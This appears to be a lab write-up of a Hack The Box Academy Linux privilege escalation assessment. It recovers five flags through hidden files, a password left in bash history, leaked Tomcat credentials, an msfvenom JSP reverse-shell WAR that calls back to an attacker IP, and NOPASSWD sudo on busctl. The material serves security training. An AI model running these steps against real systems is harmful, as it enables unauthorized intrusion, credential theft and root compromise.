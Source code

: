 # Linux Local Privilege Escalation - Skills Assessment
We have been contracted to perform a security hardening assessment against one of the INLANEFREIGHT organizations' public-facing web servers.

The client has provided us with a low privileged user to assess the security of the server. Connect via SSH and begin looking for misconfigurations and other flaws that may escalate privileges using the skills learned throughout this module.

Once on the host, we must find five flags on the host, accessible at various privilege levels. Escalate privileges all the way from the htb-student user to the root user and submit all five flags to finish this module.

`SSH to 10.129.71.247 (ACADEMY-LLPE-SKILLS-NIX03) with user "htb-student" and password "Academy_LLPE!"`

## Flag 1 - Discovery through Hidden Configuration Files
To begin the enumeration, I searched for any hidden or protected flag files on the system using the command:
```bash
find / -name "*flag1.txt*" 2>/dev/null
```
![image](https://github.com/user-attachments/assets/d40392e8-9f39-47fb-af1d-06e59e54fd13)

I discovered the flag located at `/home/htb-student/.config/.flag1.txt.` To retrieve its contents, I used:
```bash
cat /home/htb-student/.config/.flag1.txt
```
This initial step highlights the importance of searching hidden directories for configuration leaks.

## Flag 2 - User Privilege Escalation through Bash History
Navigating to the `/home` directory revealed three user folders: `barry`, `htb-student`, and `mrb3n`. Inside `barry`'s directory, I found `flag2.txt`, but access was denied:
```bash
cd /home/barry
ls -la
cat flag2.txt   # Permission denied
```
To bypass this, I examined Barry's `.bash_history` with:
```bash
cat /home/barry/.bash_history
```
![image](https://github.com/user-attachments/assets/6d7aa9db-87a0-4145-bf3a-8418e17787da)

Inside the history, I found login attempts along with a password. Using thie password, I escalated to the `barry` user:
```bash
su barry
# Entered the password
```
As `barry`, I successfully read the flag:
```bash
cat /home/barry/flag2.txt
```

## Flag 3 - Log File Enumeration for Sensitive Information
To search for the third flag, I ran the following command:
```bash
find / -name "*flag3.txt*" 2>/dev/null
```
The flag was located in the /var/log directory:
```bash
cat /var/log/flag3.txt
```
This flag was exposed in log files, demonstrating poor security practices for sensitive information storage.

## Flag 4 - Tomcat Manager Exploitation and Reverse Shell
While exploring the `/var/log` directory, I discovered that `tomcat9` was running. Accessing `/etc/tomcat9/tomcat-users.xml.bak` revealed credentials for the Tomcat Manager. I logged in via the web interface and generated a WAR payload for a reverse shell using:
![image](https://github.com/user-attachments/assets/b949aaae-ee8b-4f3a-b2b1-d0d3b6720335)

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.44 lport=4444 -f war -o shell.war
```

I uploaded the WAR file to the Tomcat Manager interface and deployed it. With Netcat listening:
```bash
nc -lvnp 4444
```
I accessed the shell at:
`http://<Target-IP>:8080/shell/`

![image](https://github.com/user-attachments/assets/09edba34-57e3-4337-a33b-9a3f1e01bba4)

Inside the shell, I navigated to Tomcat's directory and retrieved the flag:
```bash
cat /var/lib/tomcat9/flag4.txt
```

## Flag 5 - Abusing Sudo Permissions and D-Bus Control
After getting a reverse shell, I needed a fully interactive shell. I spawned one using:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/user-attachments/assets/b7db7d64-d6df-44d5-8f04-440ab6087c2e)

To escalate further, I checked my sudo permissions as the tomcat user:
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/5a33975c-2b78-4a09-a80e-ee688cc208f3)

I noticed NOPASSWD rights for `/usr/bin/busctl`. Using the following command, I listed available services:
```bash
sudo /usr/bin/busctl list
```
![image](https://github.com/user-attachments/assets/59be6bef-03f0-486c-8f56-f8c3e85db138)

I spawned a root shell by leveraging D-Bus interaction, then navigated to the root's home directory to find the final flag:
```bash
cd /root
cat flag5.txt
```
![image](https://github.com/user-attachments/assets/87cf2549-7e8f-42dc-a58a-9fe0bcd55078)
